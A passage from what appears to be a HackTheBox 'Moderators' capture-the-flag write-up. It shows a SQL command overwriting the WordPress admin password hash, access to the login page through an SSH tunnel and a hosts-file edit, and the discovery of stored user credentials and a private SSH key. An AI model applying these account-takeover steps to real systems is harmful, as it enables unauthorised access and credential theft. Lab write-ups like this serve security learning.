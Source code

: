 ```bash
MariaDB [wordpress]> UPDATE `wp_users` SET `user_pass` = '$P$Butw21NZp/bVFKSgE6gbBKtLjkl3tQ/' WHERE user_login = 'admin';
Query OK, 1 row affected (0.002 sec)
Rows matched: 1  Changed: 1  Warnings: 0

MariaDB [wordpress]> select * from wp_users;
[... snip ...]
|  1 | admin      | $P$Butw21NZp/bVFKSgE6gbBKtLjkl3tQ/ 
```

Set up a new SSH tunnel and login through `http://127.0.0.1:8080/wp-login.php`. Trying to login we're forwarded to `http://moderators.htb:8080/xxx` and trying to edit `moderators.htb` to `127.0.0.1` invalidate the login. So edit `/etc/hosts` and add `moderators.htb` to `127.0.0.1`.

Try to login again and everything works as intended:
![](/assets/images/htb-writeup-moderators/moderators11.png)


### Step 2
At the bottom of the nav bar we find the second plugin _"PWDMS"_, check it out and we find the credentials `carl:Carl@thebest**` as well as `john`'s private SSH key..

![](/assets/images/htb-writeup-moderators/moderators12.png)
